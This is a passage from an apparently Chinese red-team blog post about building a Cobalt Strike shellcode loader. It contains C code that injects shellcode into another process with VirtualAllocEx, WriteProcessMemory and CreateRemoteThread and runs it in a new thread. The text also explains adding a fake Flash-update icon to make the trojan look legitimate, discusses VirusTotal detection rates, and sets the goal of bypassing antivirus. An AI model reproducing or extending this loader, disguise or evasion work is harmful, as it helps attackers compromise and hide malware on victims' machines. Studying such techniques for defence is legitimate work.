 ```
       if (!result)
           break;
       buffer += read;
       length -= read;
    `}`
    CloseHandle(pipe);
    return TRUE;
`}`

    //将Shellcode 注入到其他进程
    HANDLE hProcess = NULL;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, PID);
    HMODULE modHandle = GetModuleHandle(_T("Kernel32"));
    LPTHREAD_START_ROUTINE addr = (LPTHREAD_START_ROUTINE)GetProcAddress(modHandle, "LoadLibraryA");
    void* pLibRemote = VirtualAllocEx(hProcess, NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, pLibRemote, (void*)data, sizeof(data), NULL);
    CreateRemoteThread(hProcess, NULL, 0,
       addr,
       pLibRemote,
       0,
       NULL);
       
    //创建子进程
    DWORD WINAPI StartAddress(LPVOID lpThreadParameter)`{`
    return ((int(__stdcall*)(LPVOID))lpThreadParameter)(lpThreadParameter);
`}`
    s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)StartAddress, buff, 0, 0);
    WaitForSingleObject(s, 0xFFFFFFFF);
```

最后，我们希望可执行工具在红队使用中达到更逼真的效果，因此加入了Flash的更新图标，方法如下：VisualStudio 解决方案资源管理器-&gt;右击资源文件，添加资源，选择icon 导入即可。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01549f75fd576b1133.png)

事以愿违，VirusTotal的查杀结果显示在70个杀软中有21个检测出了木马，虽然比CS直接生成的artifact.exe要好一些，但是并不能令我们满意（Avast/AVG/McAfee/Tencent等均未查杀出木马）。下图为artifact和使用命名管道实现的Shelllcode加载器在VirusTotal上面的表现情况对比。

[![](https://p1.ssl.qhimg.com/t01549eadd683726766.png)](https://p1.ssl.qhimg.com/t01549eadd683726766.png)

[![](https://p5.ssl.qhimg.com/t01713130c8fd367d5e.png)](https://p5.ssl.qhimg.com/t01713130c8fd367d5e.png)

而且使用360套件对其进行测试，360也成功防护了此次模拟攻击测试。因此，我们需要思考可以从哪些方式可以对此Shellcode Loader进行修改来绕过常规杀软对该木马的检测。

[![](https://p3.ssl.qhimg.com/t01205489e203e31ffd.png)](https://p3.ssl.qhimg.com/t01205489e203e31ffd.png)



## 0x03 Shellcode加密 &amp; 页面区域保护
